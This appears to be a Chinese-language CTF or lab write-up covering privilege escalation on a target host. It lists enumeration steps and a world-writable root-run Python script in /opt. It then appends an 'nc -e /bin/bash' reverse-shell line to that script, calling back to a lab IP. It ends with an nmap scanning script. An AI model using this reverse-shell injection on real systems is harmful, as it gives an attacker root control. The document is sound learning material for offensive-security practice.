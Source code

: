 #### 信息搜集

gcc没有；suid检查；sudo检查；root权限进程检查

于是四处转悠一下

/var/backups
```
-rw------- 1 root root       909 Aug 22  2017 group.bak
-rw------- 1 root shadow     763 Aug 22  2017 gshadow.bak
-rw------- 1 root root      2107 Aug 22  2017 passwd.bak
-rw------- 1 root shadow    1375 Aug 22  2017 shadow.bak

```
```
cat /etc/group 查找组用户
james
ps -aux | grep james 查找james用户运行的进程
```
在/opt路径下，有一个py脚本，被我忽略了。
重点是`rwxrwxrwx`，第三个rwx，说明其他用户也有可读可写可执行权限。
```
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  158 Dec  2 02:35 tmp.py
```
## 提权
cd /opt;echo  "os.system('/bin/nc -e /bin/bash 192.168.2.128 8001')" >> tmp.py
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/6.PNG)

我说为啥一开始传LinEnum.sh的时候，文件老是不见了呢==

原来是删除/tmp的进程做的。

[权限错误，这种提权方式遇到过](https://whale3070.github.io/training/2018/04/16/x/)

---
参考资料：

[将一个简单的shell，提升为完整的终端控制](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## 总结：

因为全端口扫描需要花点时间，所以先进行常见端口扫描。

写了一个脚本，懒得每次输命令==
```
#!/bin/bash
read -p "ip? " what
nmap -sS -sV -oN scan-result.txt ${what}
nmap -p- -oN full-scan.txt ${what}
```
- 内核提权检查之前，先检查是否有编译器